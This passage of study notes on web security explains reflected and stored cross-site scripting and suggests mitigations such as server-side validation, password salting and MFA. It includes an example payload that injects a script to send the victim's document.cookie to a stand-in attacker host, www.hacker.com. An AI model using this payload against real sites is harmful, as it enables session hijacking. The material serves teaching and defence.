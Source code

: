 Suppose the victim is given this URL by the attacker controlling a web site at the address www.hacker.com
\begin{verbatim}
    http://www.vulnerable.com/welcome.php?name=
    <script>window.open ("http://www.hacker.com/
    collect.php?cookie= "+document.cookie) </script>
\end{verbatim}
The idea is to forward the cookie of the user to the site controlled by the attacker so that it can exploit it.
The web page would then be injected with the following script:
\begin{verbatim}
    <html>
      <body>
        <script>window.open("http://www.hacker.com/
         collect.php?cookie= "+document.cookie) 
        </script>
        ,welcome to our site.
      </body>
    </html>
\end{verbatim}
The script, executed in the browser of the user, sends the cookie to the web site controlled by the attacker. For this attack exist two variants:
\begin{itemize}
    \item \textbf{Reflected}: Use a constructed URL
    \item \textbf{Stored}: Using a POST to store the bad URL inside a comment/forum
\end{itemize}
Possible mitigations for this attack could be filtering all parameters from HTTP GET and POST, so for example remove special characters or substitute it specifing which characters are allowed.

Clients can easily circumvent checks in the HTML code itself, such as hidden parameters and JavaScript code, they can simply download the page, edit the HTML and/or JavaScript, load up the modified page in the browser and click "Submit". Client side validation is useful for performance reasons, but useless from a security point of view. A solution could be never trust input from user and never trust client side input validation, all the parameters must be validated on the server side before they are used.

Username and password combinations are commonly used and commonly broken, collection of them are on sale in the dark web, this is caused by insecure storage of password hash, faulty session management. Mitigation for this could be Disallow weak passwords, use a stronger hash algorithm, salt the password, use HTTPS, implement MFA and do not expose credentials in untrusted locations.

